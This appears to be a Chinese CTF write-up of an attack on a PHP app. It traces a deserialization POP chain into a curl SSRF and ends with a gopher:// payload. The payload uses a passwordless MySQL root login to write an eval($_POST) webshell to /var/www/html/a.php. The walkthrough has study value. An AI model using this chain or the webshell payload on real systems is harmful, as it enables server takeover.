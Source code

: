 ```php
function checkUpdate($url){
		$ch=curl_init();
		curl_setopt($ch, CURLOPT_URL, $url);
		curl_setopt($ch, CURLOPT_HEADER, false);
		curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
		curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
		curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false); 
        curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
		$res = curl_exec($ch);
		curl_close($ch);
		return $res;
	}
```

`curl`存在`ssrf漏洞`

然后该函数被：`dao.php`  `checkVersion()`函数调用：

```php
public function checkVersion(){
		return checkUpdate($this->config->update_url);
	}
```

然后 该函数又在`index.php`中被调用：

![image-20230523100129016](https://raw.githubusercontent.com/leekosss/photoBed/master/202305231001073.png)



就形成了一条pop链

然后我们看到 `config.php`中：

![image-20230523100547456](https://raw.githubusercontent.com/leekosss/photoBed/master/202305231005502.png)

使用mysql数据库，用户名：root，又**没有密码**，

所以我们可以使用**ssrf利用gopher协议打mysql去写入木马**。我们使用 `Gopherus`：

![image-20230523101234818](https://raw.githubusercontent.com/leekosss/photoBed/master/202305231012902.png)



然后构造脚本：

```php
<?php

class dao
{
    private $config;
    public function __construct() {
        $this->config = new config();
    }
}
class config
{
    public $update_url = 'gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%46%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%31%5d%29%3b%3f%3e%27%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%2e%70%68%70%27%3b%01%00%00%00%01';
}


```